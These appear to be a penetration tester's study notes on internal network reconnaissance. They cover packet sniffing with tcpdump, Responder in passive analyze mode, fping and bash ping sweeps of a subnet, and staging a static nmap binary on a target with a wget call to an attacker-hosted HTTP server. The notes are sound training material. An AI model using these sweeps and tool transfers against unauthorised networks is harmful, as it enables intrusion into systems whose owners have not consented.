 - [tcpdump](https://linux.die.net/man/8/tcpdump)

```shell-session
sudo tcpdump -i ens224 
```

- [net-creds](https://github.com/DanMcInerney/net-creds)
- [NetMiner](https://www.netminer.com/en/product/netminer.php)
- pktmon.exe: monitoring tool built-in, which was added to all editions of Windows 10.
- responder in analyzing mode:

>[Responder](https://github.com/lgandx/Responder-Windows) is a tool built to listen, analyze, and poison `LLMNR`, `NBT-NS`, and `MDNS` requests and responses. It has many more functions, but for now, all we are utilizing is the tool in its Analyze mode. This will passively listen to the network and not send any poisoned packets. We'll cover this tool more in-depth in later sections.

```bash
sudo responder -I ens224 -A 
```

- [Fping](fping.md) provides us with a similar capability as the standard ping application in that it utilizes ICMP requests and replies to reach out and interact with a host.


```bash
fping -a -g -s -q $ipRange
fping -agsq $ipRange
# -a: forces the tool to show only alive hosts.
# -g: tells the tool we want to perform a ping sweep instead of a standard ping.
# -s: prints stats at the end of the scan
# -q: not to show per-target results
```

- Classic ping:

```shell-session
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```


### nmap

[Binaries repo](https://github.com/andrew-d/static-binaries/tree/master): This repo contains a bunch of statically-linked binaries of various tools, along with the Dockerfiles / other build scripts that can be used to build them. I generally just create these as I need them - not all tools are available for every platform or architecture. 
```
# In your kali
git clone https://github.com/andrew-d/static-binaries.git
cd /static-binaries/binaries/linux/x86_64

# Serve it to the target:
python -m http.server 8000

# Copy from the target 
wget http://$ipAttacker:8000/nmap

# Add executable permissions
chmod +x nmap
```
